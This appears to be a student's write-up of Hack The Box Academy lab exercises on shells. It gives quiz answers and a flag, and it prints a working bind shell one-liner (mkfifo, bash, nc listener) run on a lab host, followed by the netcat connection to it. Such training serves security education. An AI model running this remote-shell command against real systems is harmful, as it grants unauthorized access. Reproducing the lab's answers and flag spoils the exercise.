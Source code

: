 # Anatomy of a Shell

- Which two shell languages did we experiment with in this section? (Format: shellname&shellname)
**`bash&powershell`**

- In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.
```powershell
PS [10.10.14.124] /home/htb-ac-539570 > echo $PSversiontable

Name                           Value
----                           -----
PSVersion                      7.5.0
PSEdition                      Core
GitCommitId                    7.5.0
OS                             Parrot Security 6.3 (lorikeet)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

# Bind Shells

- Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session? ANS: 443
- SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

```zsh
❯ ssh htb-student@10.129.106.191
```

On target:
```bash
htb-student@ubuntu:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 0.0.0.0 1234 > /tmp/f
```

On VM
```zsh
exec bash --login
nc -nv 10.129.81.57 1234
(UNKNOWN) [10.129.81.57] 1234 (?) open
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb-student@ubuntu:~$ 
htb-student@ubuntu:~$ cat /customscripts/flag.txt 
B1nD_Shells_r_cool

```
